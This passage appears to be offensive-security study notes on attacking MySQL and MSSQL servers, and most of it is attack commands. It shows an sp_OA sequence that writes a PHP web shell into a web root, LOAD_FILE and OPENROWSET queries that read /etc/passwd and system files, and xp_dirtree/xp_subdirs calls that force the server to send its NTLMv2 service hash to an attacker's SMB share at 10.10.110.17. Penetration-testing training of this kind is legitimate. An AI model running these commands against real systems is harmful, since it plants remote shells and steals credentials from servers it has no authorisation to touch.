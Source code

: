 ##### <mark class="hltr-purple">MSSQL - Create a File</mark>

```cmd-session
1> DECLARE @OLE INT
2> DECLARE @FileID INT
3> EXECUTE sp_OACreate 'Scripting.FileSystemObject', @OLE OUT
4> EXECUTE sp_OAMethod @OLE, 'OpenTextFile', @FileID OUT, 'c:\inetpub\wwwroot\webshell.php', 8, 1
5> EXECUTE sp_OAMethod @FileID, 'WriteLine', Null, '<?php echo shell_exec($_GET["c"]);?>'
6> EXECUTE sp_OADestroy @FileID
7> EXECUTE sp_OADestroy @OLE
8> GO
```

### <mark class="hltr-orange">Read Local Files</mark>

#### <mark class="hltr-grey">MySQL</mark>

By default a `MySQL` installation does not allow arbitrary file read, but if the correct settings are in place and with the appropriate privileges, we can read files using the following methods:

```shell-session
mysql> select LOAD_FILE("/etc/passwd");
```

#### <mark class="hltr-grey">MSSQL</mark>

By default, `MSSQL` allows file read on any file in the operating system to which the account has read access. We can use the following SQL query:

```cmd-session
1> SELECT * FROM OPENROWSET(BULK N'C:/Windows/System32/drivers/etc/hosts', SINGLE_CLOB) AS Contents
2> GO
```

### <mark class="hltr-orange">Capture MSSQL Service Hash</mark>

We can also steal the MSSQL service account hash using <mark class="hltr-green">xp_subdirs</mark> or <mark class="hltr-green">xp_dirtree</mark> undocumented stored procedures, which use the SMB protocol to retrieve a list of child directories under a specified parent directory from the file system.

When we use one of these stored procedures and point it to our SMB server, the directory listening functionality will force the server to authenticate and send the NTLMv2 hash of the service account that is running the SQL Server.

#### <mark class="hltr-grey">XP_DIRTREE Hash Stealing</mark>
```cmd-session
1> EXEC master..xp_dirtree '\\10.10.110.17\share\'
2> GO
```

#### <mark class="hltr-grey">XP_SUBDIRS Hash Stealing</mark>
```cmd-session
1> EXEC master..xp_subdirs '\\10.10.110.17\share\'
2> GO
```
